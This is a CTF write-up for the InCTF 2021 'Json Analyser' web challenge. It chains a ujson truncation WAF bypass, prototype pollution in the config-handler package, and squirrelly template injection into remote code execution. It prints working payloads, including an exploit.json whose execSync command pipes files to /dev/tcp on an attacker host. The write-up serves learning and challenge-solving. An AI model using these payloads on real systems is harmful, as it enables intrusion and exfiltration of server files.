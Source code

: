 ```yaml
---
title: Json Analyser - InCTF Internationals 2021
date: 2021-08-15
author: 1nt3rc3pt0r
author_url: https://twitter.com/_1nt3rc3pt0r_
categories:
 - CTF
 - 0days
tags:
 - Prototype Pollution
 - Json_Interoperability 
 - InCTFi
---
```


**tl;dr**

+ Json_Interoperability - `/verify_roles?role=supersuperuseruser\ud800","name":"admin`
+ Prototype_Pollution - `{"constructor":{"prototype":{"test":"123"}}}` in config-handler
+ rce - using squirrelly-js
<!--more-->

**Challenge points:** 1000

**Challenge Author:** [1nt3rc3pt0r](https://twitter.com/_1nt3rc3pt0r_)

**Source Code:** [here](https://github.com/sayoojbkumar/CTFChallenges)

## Challenge Description

Welcome to JSON Analyser. Verify your role and get Subscription ID. Then start looking into your dump json file.

## Solution

**Part - I:**

Looking into the source, one can find that the player has to get subscription_code first inorder to upload a Json file.

``` 
    if "superuser" in role:
        role=role.replace("superuser",'')
    if " " in role:
        return "n0 H3ck1ng"
    if len(role)>30:
        return "invalid role"
    data='"name":"user","role":"{0}"'.format(role)
    no_hecking=re.search(r'"role":"(.*?)"',data).group(1)
    if(no_hecking)==None:
        return "bad data :("
    if no_hecking == "superuser":
        return "n0 H3ck1ng"
    data='{'+data+'}'
    try:
        user_data=ujson.loads(data)
    except:
        return "bad format" 
```

The goal is to bypass waf and get subscription_code.

Payload:
 - `/verify_roles?role=supersuperuseruser\ud800","name":"admin` 
 - This happens because of `Character Truncation` while using ujson and `last-key precedence` when duplicate keys exists.   [read_more_about_this](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities)

**Part - II:**

After retrieving subscription_code, players can now upload their json file providing subscription_code and get it's preview

```
    if(req.body.pin !== "673307-0496-1001122"){
        return res.send('bad pin')
    }
    if (!req.files || Object.keys(req.files).length === 0) {
      return res.status(400).send('No files were uploaded.');
    }
    uploadFile = req.files.uploadFile;
    uploadPath = __dirname + '/package.json' ;
    uploadFile.mv(uploadPath, function(err) {
        if (err)
            return res.status(500).send(err);
        try{
            var config = require('config-handler')();
        }
        catch(e){
            const src = "package1.json";
            const dest = "package.json";
            fs.copyFile(src, dest, (error) => {
                if (error) {
                    console.error(error);
                    return;
                }
                console.log("Copied Successfully!");
            });
            return res.sendFile(__dirname+'/static/error.html')
        }
```

as you can see `package.json` file is replaced with uploaded file and then it's been loaded by `var config = require('config-handler')();`

config-handler is vulnerable to Prototype_Pollution

`poc.json`
```
{
"constructor":{
    "prototype":
        {"test":"works"}
    }
}
```

`poc.js`
```
const express = require('express');
const app = express();
port = 8081

app.get('/', function (req, res) {
    const config = require('config-handler')();
    console.log(test)
    console.log(config)
});
var server= app.listen(port, () => {
    console.log(`Example app listening at http://localhost:${port}`)
});
```


**Part - III:**

From the Dockerfile it's clear that user needs to get RCE inorder to retrieve flag. Now players need to Leverage the Prototype Pollution in `config-handler` to gain RCE using `squirrelly-js` module.

`exploit.json`
```
{
    "name": {
      "__proto__":{
         "defaultFilter" : "e'));process.mainModule.require('child_process').execSync('/bin/bash -c \\'cat /* > /dev/tcp/<ip>/<port>\\'')//"
      }
     },
    "version": "1.0.0",
    "description": "",
    "main": "app.js",
    "dependencies": {
      "config-handler": "^2.0.3",
      "express": "^4.17.1",
      "express-fileupload": "^1.2.1",
      "nodemon": "^2.0.12",
      "squirrelly": "^8.0.8"
    },
    "devDependencies": {},
    "scripts": {
      "test": "echo \"Error: no test specified\" && exit 1"
    },
    "author": "",
    "license": "ISC"
 }
```
Why defaultFilter? [see_here](https://github.com/squirrellyjs/squirrelly/blob/master/src/compile-string.ts#L128)

## Flag:

inctf{Pr0707yp3_P011u710n5_4r3_D34dly}
